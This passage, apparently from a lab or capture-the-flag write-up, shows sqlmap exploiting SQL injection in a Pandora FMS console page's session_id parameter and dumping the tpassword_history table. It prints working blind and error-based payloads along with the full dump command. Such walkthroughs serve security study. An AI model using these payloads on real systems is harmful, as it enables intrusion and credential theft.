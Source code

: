 ```c
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: session_id=''' AND (SELECT 2215 FROM (SELECT(SLEEP(5)))mPZg)-- gdEY
---
[13:13:22] [INFO] testing MySQL
[13:13:22] [INFO] confirming MySQL
[13:13:23] [WARNING] reflective value(s) found and filtering out
[13:13:23] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 19.10 or 20.04 or 20.10 (focal or eoan)
web application technology: PHP, Apache 2.4.41
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[13:13:23] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[13:13:23] [INFO] fetching current database
[13:13:23] [INFO] retrieved: 'pandora'
[13:13:23] [INFO] fetching tables for database: 'pandora'

...

```

We have found the ```database``` name is ```pandora```

Dumping the ```tpassword_history``` table,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ sqlmap --url="http://localhost:8081/pandora_console/include/chart_generator.php?session_id=''" --dbms=mysql -D pandora -T tpassword_history  --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.3#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:26:11 /2022-03-30/

[13:26:11] [INFO] testing connection to the target URL
[13:26:11] [WARNING] potential permission problems detected ('Access denied')
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=6up1pgja7ic...uoqu641vi3'). Do you want to use those [Y/n] y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: session_id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: session_id=-5176' OR 2190=2190#

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: session_id=''' OR (SELECT 2464 FROM(SELECT COUNT(*),CONCAT(0x71766a6271,(SELECT (ELT(2464=2464,1))),0x7171626a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- IdPE

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: session_id=''' AND (SELECT 2215 FROM (SELECT(SLEEP(5)))mPZg)-- gdEY
---
[13:26:13] [INFO] testing MySQL
[13:26:13] [INFO] confirming MySQL
```